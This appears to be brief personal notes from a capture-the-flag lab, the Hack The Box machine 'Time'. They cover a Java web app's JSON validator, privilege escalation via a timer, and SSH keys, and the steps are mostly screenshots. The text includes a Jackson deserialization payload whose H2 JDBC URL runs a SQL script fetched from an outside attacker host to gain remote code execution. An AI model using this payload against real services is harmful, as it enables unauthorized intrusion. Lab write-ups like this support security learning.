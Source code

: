 # Time - 10.10.10.214

Created: August 23, 2021 6:16 PM

nmap:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled.png)

error on webpage when entering some string to 'validate (beta)':

Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unexpected character (''' (code 39)): expected a valid value (number, String, array, object, 'true', 'false' or 'null')

link to potential RCE: [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%201.png)

maybe relevant:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%202.png)

rce:

payload:

["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM '[http://10.10.16.203:8000/inject.sql](http://10.10.16.203:8000/inject.sql)'"}]

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%203.png)

## PE

maybe:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%204.png)

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%205.png)

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%206.png)

whats there:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%207.png)

seeing when the timer get activated:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%208.png)

we can just write to is so..:

![Untitled](Time%20-%2010%2010%2010%20214%20be3460089954457fb7f760a74650dec0/Untitled%209.png)

[https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54](https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54)